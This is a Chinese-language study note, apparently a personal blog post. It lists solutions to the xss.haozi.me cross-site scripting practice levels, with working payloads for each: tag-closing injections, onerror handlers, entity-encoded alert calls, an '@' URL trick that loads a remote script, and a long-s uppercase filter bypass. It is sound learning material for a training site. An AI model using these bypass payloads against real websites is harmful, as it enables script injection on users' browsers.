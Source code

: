 ```yaml
---
layout: default
title: ssh_notes
categories:
- Security
tags:
- xss
---
```

//Description: 通过xss攻击学习xss的一点笔记

//Create Date: 2020-02-20 00:09:20

//Author: channy

# ssh_notes

[练习页面](https://xss.haozi.me/)

前言：做了两题终于弄明白，目标是要使页面显示"alert(1)"

0. 直接输入"alert(1)"?

```xss
<script>alert(1)</script>
```

1. 类似于xml,匹配去掉前面的\<textarea>

```xss
</textarea><script>alert(1)</script>
```

3. 括号闭合去掉前面的input

```xss
"><script>alert(1)</script>
```

4. html: #40; -> ( ; #41 -> ) .

```xss
<img src="" onerror="alert&#40;1&#41;"/>
```

5. 

```xss
--!><img src="" onerror="alert&#40;1&#41;"/>
```

6. 一定要image吗？前面的script怎么改？换行可以

```xss
type="image" src="" onerror
="alert(1)"
```

7. 要与stripTagsRe匹配上才replace,所以不加右括号

```xss
<img src="" onerror="alert(1)"
```

8. 貌似基本思想就是尽力去掉前面的tag，后面就可以加自己的了

```xss
</style
><img src="x" onerror="alert(1);">
```

9. 输入需要包括domainRe的网址

```xss
https://www.segmentfault.com<img src="" onerror="alert(1)"
```

A. 一个知识点，就是@，如果你访问 www.baidu.com@www.google.com，那么你最后进入的是谷歌的界面。

这一关，就在自己的服务器上放一个js文件，写上“alert（1）”。

穷，没自己的服务器，测试不了了 

```xss
https://www.segmentfault.com@xss.haozi.me/j.js
```

B. HTML对大小写是不敏感的，但是JavaScript对大小写敏感

```xss
<img src="x" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;">
```

C. 同上

D. 注释只能注释掉一行

```xss

alert(1)
-->
```

E. 前面加了“<_”并转换成了大写

但是ſ大写后为S,且其ascii值不与s相等,因此可以绕过

```xss
<ſcript src="https://xss.haozi.me/j.js"></script>
```

F. 

```xss
');alert(1)//
```

10. --

```xss
alert(1)
```

11. 转义的转义

```xss
");alert(1)//
```

12. 

```xss
\");alert(1)//
```

[back](./)


